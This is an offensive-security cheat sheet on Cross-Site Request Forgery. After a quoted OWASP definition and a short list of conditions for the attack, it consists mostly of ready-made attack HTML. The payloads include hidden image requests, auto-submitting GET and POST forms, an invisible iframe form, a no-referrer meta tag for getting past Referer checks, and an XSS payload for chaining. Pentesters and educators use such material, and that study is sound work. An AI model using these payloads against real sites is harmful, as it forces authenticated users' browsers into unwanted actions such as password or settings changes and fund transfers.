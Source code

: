 # CSRF

>Cross-Site Request Forgery (CSRF) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user’s web browser to perform an unwanted action on a trusted site for which the user is currently authenticated. The impact of a successful CSRF attack is limited to the capabilities exposed by the vulnerable application. For example, this attack could result in a transfer of funds, changing a password, or purchasing an item in the user's context. In effect, CSRF attacks are used by an attacker to make a target system perform a function via the target's browser without knowledge of the target user, at least until the unauthorized transaction has been committed.

Source : [OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)


## CSRF is possible when ...

* Request is known in advance and is not composed of any random values unknown from the attacker

* Server do not check the `Referer` Header

* Action should be an interesting for the attacker 
	* Password Change
	* Settings Change
	* Personal Informations Change
	* ...

## GET Requests Exploits

### Invisible mage Loading
`<img style="display:none;" src="http://vulnerable-site.com/vuln?param1=value1&param2=value2&..."/>`

### Link clicking
`<link href="http://vulnerable-site.com/vuln?param1=value1&param2=value2&...">`

```
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="GET"> 
			<input type="hidden" name="param1" value="value1"/>
		</form> 
	</body>
	<script> document.forms[0].submit();</script> 
</html>
```

## POST Requests Exploits

### Visible Form
```html
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="POST"> 
			<input type="hidden" name="param1" value="value1"/>
		</form> 
	</body>
	<script> document.forms[0].submit();</script> 
</html>
```

### Invisible Form
```html
<html> 
	<body>
		<iframe style="display:none" name="invisible-frame"></iframe>
		<form method='POST' action='http://vulnerable-site.com/vuln' target="invisible-frame" id="pwn-form">
		  <input type='hidden' name='param1' value='value1'>
		  <input type='submit' value='submit'>
		</form>
	</body>
	<script>document.getElementById("pwn-form").submit()</script>
</html>

```

## DELETE / PUT Requests Exploits

* `PUT` or `DELETE` requests using HTML forms is not possible as these methods are currently not supported by HTML5 Forms.

* CSRF is possible with the `PUT` and `DELETE` methods, but only with CORS enabled with an unrestrictive policy ().


## Protection Bypass

### Referer Header Check Bypass

* To send a request with no `Referer` header 
`<meta name="referrer" content="no-referrer">`

* Chain CSRF vulnerability with XSS
`POST http://vulnerable-site.com/xssvuln?id=<script type="text/javascript">window.location="http://vulnerable/vuln";</script>`